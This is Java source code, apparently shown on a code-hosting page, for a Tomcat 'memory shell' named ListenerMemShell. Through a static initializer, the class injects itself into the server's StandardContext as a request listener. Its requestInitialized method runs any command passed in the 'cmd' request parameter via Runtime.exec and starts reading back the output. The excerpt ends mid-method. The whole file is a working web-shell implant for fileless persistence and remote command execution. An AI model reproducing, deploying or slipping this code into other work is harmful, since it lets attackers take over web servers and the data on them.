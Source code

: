 ```java

import javax.servlet.*;
import java.lang.reflect.Field;
import java.lang.reflect.Modifier;

public class ListenerMemShell extends AbstractTranslet implements ServletRequestListener {
    static {
        try {
            //获取StandardContext
//            StandardContext standardContext = getStandardContext1();
            StandardContext standardContext = getStandardContext2();
            if(standardContext != null){
                standardContext.addApplicationEventListener(new ListenerMemShell());
            }
        } catch (Exception e) {
            throw new RuntimeException(e);
        }
    }
    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
    @Override
    public void requestDestroyed(ServletRequestEvent sre) {}

    /**
     * Receives notification that a ServletRequest is about to come
     * into scope of the web application.
     *
     * @param sre the ServletRequestEvent containing the ServletRequest
     * and the ServletContext representing the web application
     *
     * @implSpec
     * The default implementation takes no action.
     */
    @Override
    public void requestInitialized(ServletRequestEvent sre) {
        System.out.println(
                "TomcatShellInject Listener requestInitialized.....................................................................");
        String cmdParamName = "cmd";
        String cmd;
        try {
            RequestFacade servletRequest = (RequestFacade) sre.getServletRequest();
            Field requestFacade = RequestFacade.class.getDeclaredField("request");
            requestFacade.setAccessible(true);
            Request request = (Request) requestFacade.get(servletRequest);
            ServletResponse servletResponse = request.getResponse();
            if ((cmd = servletRequest.getParameter(cmdParamName)) != null) {
                Process process = Runtime.getRuntime().exec(cmd);
                java.io.BufferedReader bufferedReader = new java.io.BufferedReader(
                        new java.io.InputStreamReader(process.getInputStream()));
                StringBuilder stringBuilder = new StringBuilder();
                String line;
                while ((line = bufferedReader.readLine()) != null) {
                    stringBuilder.append(line + '\n');
                }
```